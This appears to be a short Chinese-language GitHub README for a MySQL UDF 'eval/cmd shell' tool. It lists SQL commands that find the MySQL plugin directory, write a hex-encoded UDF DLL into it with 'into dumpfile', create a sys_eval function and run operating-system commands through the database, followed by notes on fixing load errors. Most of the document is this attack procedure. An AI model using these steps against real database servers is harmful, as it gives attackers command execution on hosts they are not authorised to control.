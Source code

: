 # mysql_udf #

mysql udf eval/cmd shell

**只适用于MySQL > 5.1**
      
    一般过程
    
    >show variables like '%version%';       //查目标Mysql版本
    >show variables like '%plugin%';        //查目标plugin目录
    >select unhex(hex_udf) into dumpfile path/to/plugin/udf.dll;       //通过各种方法导入udf
    >create function sys_eval returns string soname 'udf.dll';         //创建函数
    >select sys_eval(cmd);                  //执行命令

**可能遇到的问题**

 * errno 2
        
        1. udf不存在(有可能被删)
       
 * errno 126
       
        1. 检查编译UDF用到的MySQL版本与目标MySQL版本是否对应
        2. 目标机器是否缺少各种包，如Microsoft Visual C++ redistrubutable (这条基本无解)

 * errno 193

        1. udf文件存在，但文件格式错误 (文件损坏)

